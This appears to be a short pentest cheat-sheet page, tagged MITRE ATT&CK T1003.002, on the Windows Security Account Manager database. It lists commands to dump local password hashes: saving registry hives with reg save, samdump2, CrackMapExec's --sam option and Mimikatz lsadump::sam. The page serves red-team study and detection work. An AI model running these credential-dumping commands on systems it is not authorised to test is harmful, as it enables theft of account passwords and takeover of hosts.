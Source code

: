 ```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1003.002
---
```


# Security Account Manager (SAM)

The Security Accounts Manager (SAM) is a database file in Windows that contains usernames and passwords for local accounts, typically those identified from the `net user` command.

The SAM is a database file that contains local accounts for the host, typically those found with the `net user` command.

```bash
# Manually extracting the SAM
reg save HKLM\sam sam
reg save HKLM\system system

# Analyzing extracted files
samdump2 system sam 

# Dumping the SAM remotely with CrackMapExec
crackmapexec smb $ip -u $username -p $password --sam

# Dumping the SAM with Mimikatz
mimikatz lsadump::sam    
```

### References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry" %}
